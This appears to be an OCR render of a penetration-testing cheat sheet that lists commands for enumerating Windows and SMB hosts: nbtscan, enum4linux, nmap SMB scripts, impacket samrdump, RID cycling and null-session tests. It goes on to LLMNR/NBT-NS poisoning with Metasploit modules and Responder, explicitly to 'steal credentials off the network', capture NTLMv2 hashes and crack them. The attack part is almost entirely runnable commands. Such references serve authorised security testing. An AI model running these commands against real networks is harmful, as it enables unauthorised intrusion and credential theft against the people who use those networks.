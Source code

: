 COMMAND	DESCRIPTION
nbtscan 192.168.1.0/24

Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain

enum4linux -a target-ip

Do Everything, runs all options (find windows client domain / workgroup) apart from dictionary based share name guessing

Fingerprint SMB Version
smbclient -L //192.168.1.100 
Find open SMB Shares
nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24   
Enumerate SMB Users
nmap -sU -sS --script=smb-enum-users -p U:137,T:139 192.168.11.200-254 
python /usr/share/doc/python-impacket-doc/examples
/samrdump.py 192.168.XXX.XXX
RID Cycling:

ridenum.py 192.168.XXX.XXX 500 50000 dict.txt
Metasploit module for RID cycling:

use auxiliary/scanner/smb/smb_lookupsid
Manual Null session testing:
Windows:

net use \\TARGET\IPC$ "" /u:""
Linux:

smbclient -L //192.168.99.131
NBTScan unixwiz
Install on Kali rolling:

apt-get install nbtscan-unixwiz 
nbtscan-unixwiz -f 192.168.0.1-254 > nbtscan
LLMNR / NBT-NS Spoofing
Steal credentials off the network.

Metasploit LLMNR / NetBIOS requests
Spoof / poison LLMNR / NetBIOS requests:

auxiliary/spoof/llmnr/llmnr_response
auxiliary/spoof/nbns/nbns_response
Capture the hashes:

auxiliary/server/capture/smb
auxiliary/server/capture/http_ntlm
You’ll end up with NTLMv2 hash, use john or hashcat to crack it.

Responder.py
Alternatively you can use responder.

git clone https://github.com/SpiderLabs/Responder.git
python Responder.py -i local-ip -I eth0
Run Responder.py for the whole engagement
Run Responder.py for the length of the engagement while you're working on other attack vectors.
